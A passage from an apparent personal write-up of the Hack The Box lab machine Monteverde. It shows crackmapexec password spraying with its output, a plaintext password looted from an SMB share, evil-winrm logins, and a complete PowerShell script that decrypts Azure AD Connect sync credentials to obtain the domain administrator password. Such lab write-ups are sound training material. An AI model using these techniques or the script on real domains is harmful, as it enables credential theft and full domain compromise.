[+] naming_contexts = ['DC=MEGABANK,DC=LOCAL', 'CN=Configuration,DC=MEGABANK,DC=LOCAL', 'CN=Schema,CN=Configuration,DC=MEGABANK,DC=LOCAL', 'DC=DomainDnsZones,DC=MEGABANK,DC=LOCAL', 'DC=ForestDnsZones,DC=MEGABANK,DC=LOCAL']
```

### HTTP on port 5985

- Gobuster does not give anything useful

## Password spraying with users list

- One thing to try is to do password spraying and use the users we found as the list for users **AND** passwords. It could work.

```txt
──(kali㉿kali)-[~/Documents/monteverde]
└─$ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt --shares 
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [+] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ            
```

- We do get a valid pair of creds `MEGABANK.LOCAL\SABatchJobs:SABatchJobs` and a list of the smb shares.

## SMB

- Let's check these shares
- The share azure-uploads is empty  
  
- No luck with IPC$, NETLOGON
- We get something with SYSVOL  

- And also with users$  


### users$

- In mhope folder we have an azure.xml file we can take it for further analysis using `get azure.xml`

#### Azure.xml

- This file contains a password `4n0therD4y@n0th3r$`
- Here is the full file

```xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

## Password spray with the password just found

- Using crackmapexec again we find out that this is mhope password  



- So we have another pair of credentials `mhope:4n0therD4y@n0th3r$`

## Shell as mhope

- Using evil-winrm, we get a shell as mhope `evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`
- We can get the user shell

## Privesc

- There are a some folders and programs related to Azure. Our user is a member of the Azure Admins group.  



- [This blog](https://blog.xpnsec.com/azuread-connect-for-redteam/) has an interesting script to use Microsoft Azure Active Directory Connect
- I can take the script and upload it using `upload script.ps1` this will fetch the creds from the db ( I hope so :D )
- We had to change the connection String 0xdf explains it on their writeup [here](https://0xdf.gitlab.io/2020/06/13/htb-monteverde.html)

```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

- And it works. We get creds for the administrator `administrator:d0m@in4dminyeah!`  



- Now let's try to connect as Administrator using evil-winrm `evil-winrm -i 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!'`
- It works we can grab the root flag  



## Resources

- [This writeup of the same box by 0xdf is pretty cool](https://0xdf.gitlab.io/2020/06/13/htb-monteverde.html)
- [As usual payload all the things has great content. Check out this page about Azure AD Connect](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Cloud%20-%20Azure%20Pentest.md#azure-ad-connect---msol-accounts-password-and-dcsync)
